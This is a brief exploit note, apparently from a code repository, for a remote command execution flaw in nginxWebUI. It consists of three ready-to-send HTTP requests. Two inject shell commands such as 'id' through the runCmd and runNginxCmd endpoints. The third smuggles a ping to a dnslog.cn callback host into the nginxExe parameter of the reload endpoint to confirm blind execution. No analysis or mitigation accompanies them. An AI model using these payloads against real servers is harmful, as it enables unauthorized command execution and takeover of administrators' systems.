



nginxWebUI 远程命令执行漏洞  

 

# exp1

GET /AdminPage/conf/runCmd?cmd=id%26%26echo%20nginxn HTTP/1.1

Host: 10.10.10.143:8080

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.10.143:8080/

Cookie: SOLONID=221d626a4eef4ee1b6bd3244b0025a58

Upgrade-Insecure-Requests: 1

 

 

 

 

 

 

 

# exp2

POST /Api/nginx/runNginxCmd HTTP/1.1

Host: 10.10.10.143:8080

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 17

Origin: http://10.10.10.143:8080

Connection: close

Referer: http://10.10.10.143:8080/adminPage/remote

 

cmd=id%26%26nginx

 

 

 

# exp3

GET /AdminPage/conf/reload?nginxExe=ping%20r17iws.dnslog.cn%20%7C HTTP/1.1

Host: 10.10.10.143:8080

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Origin: http://10.10.10.143:8080

Connection: close

Referer: http://10.10.10.143:8080/adminPage/remote

 

 

 

 